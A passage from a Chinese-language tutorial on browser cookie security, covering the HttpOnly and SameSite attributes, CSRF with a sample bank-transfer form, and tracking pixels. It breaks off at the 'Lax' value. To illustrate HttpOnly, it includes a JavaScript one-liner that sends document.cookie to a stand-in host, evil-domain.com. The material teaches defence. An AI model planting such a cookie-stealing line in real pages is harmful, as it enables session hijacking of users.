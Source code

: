 `HttpOnly` 属性指定该 `Cookie` 无法通过 JavaScript 脚本拿到，主要是 `document.cookie` 属性、`XMLHttpRequest` 对象和 `Request API` 都拿不到该属性。这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 `Cookie`。

```javascript
new Image().src =
  'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的 `HttpOnly` 属性，上面代码就不会读到该 `Cookie`。

### 3.4. SameSite

Chrome 51 开始，浏览器的 `Cookie` 新增加了一个 `SameSite` 属性，用来防止 `CSRF` 攻击和用户追踪。

`Cookie` 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 `Cookie` 的 HTTP 请求，这就是 `CSRF` 攻击。

举例来说，用户登陆了银行网站 `your-bank.com`，银行服务器发来了一个 `Cookie`。

```http
Set-Cookie:id=a3fWa;
```

用户后来又访问了恶意网站 `malicious.com`，上面有一个表单。

```html
<form action="your-bank.com/transfer" method="POST">...</form>
```

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的请求。为了防止这种攻击，表单一般都带有一个随机 token，告诉服务器这是真实请求。

```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34" />
  ...
</form>
```

这种第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。比如，`Facebook` 在第三方网站插入一张看不见的图片。

```html
<img src="facebook.com" style="visibility:hidden;" />
```

浏览器加载上面代码时，就会向 `Facebook` 发出带有 `Cookie` 的请求，从而 `Facebook` 就会知道你是谁，访问了什么网站。

`Cookie` 的 `SameSite` 属性用来限制第三方 `Cookie`，从而减少安全风险。它可以设置三个值。

- `Strict`
- `Lax`
- `None`

(1）Strict

Strict 最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。

```http
Set-Cookie: CookieName=CookieValue; SameSite=Strict;
```

这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 `GitHub` 链接，用户点击跳转就不会带有 `GitHub` 的 `Cookie`，跳转过去总是未登陆状态。

（2）Lax
